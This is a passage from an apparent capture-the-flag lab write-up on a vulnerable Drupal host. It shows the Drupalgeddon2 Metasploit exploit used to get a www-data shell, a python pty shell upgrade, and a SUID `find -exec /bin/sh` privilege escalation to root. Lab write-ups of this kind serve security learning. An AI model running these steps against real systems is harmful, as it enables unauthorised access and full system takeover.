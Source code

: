 This enumeration phase provides crucial insights into the target's configuration and layout, paving the way for targeted attacks in the exploitation phase.

### 5. Exploitation

### Exploitation Details

Using Metasploit's Drupal Drupalgeddon2 exploit, we successfully gained access to the target system. This exploit leverages a well-known vulnerability in Drupal's Form API to execute arbitrary PHP code.

#### Tool and Command

- **Metasploit Usage**:
  - Command: `use exploit/unix/webapp/drupal_drupalgeddon2`
  - Purpose: To exploit known vulnerabilities in Drupal's Form API to execute arbitrary PHP code.
  - Execution: Successfully initiated a `meterpreter` session, providing a remote shell as the `www-data` user.
    ```
- **Python Upgrade**:
  - Command: `python -c 'import pty; pty.spawn("/bin/bash")'`
  - Purpose: To upgrade the Meterpreter shell to a more stable bash shell.

## 6. Post Exploitation

### Initial System Survey

- **Command Execution**:
  - Commands: 
    ```bash
    ls  # Listed directory contents
    whoami  # Confirmed user as 'www-data'
    ```
  - Findings: Initial directory listing provided insight into the web server's file structure; user confirmation established limited privileges.

### Further Exploration and Privilege Escalation

- **Directory and File Exploration**:
  - Commands:
    ```bash
    cd /home
    ls  # Explored user directories
    cd flag4
    cat flag4.txt  # Read contents of flag4.txt
    ```
  - Result: Discovered additional flags and hints for further actions.

- **Privilege Escalation Attempt**:
  - Command: `find DC1 -exec "/bin/sh" \;`
  - Result: Unexpectedly gained root access due to misconfigured system permissions.
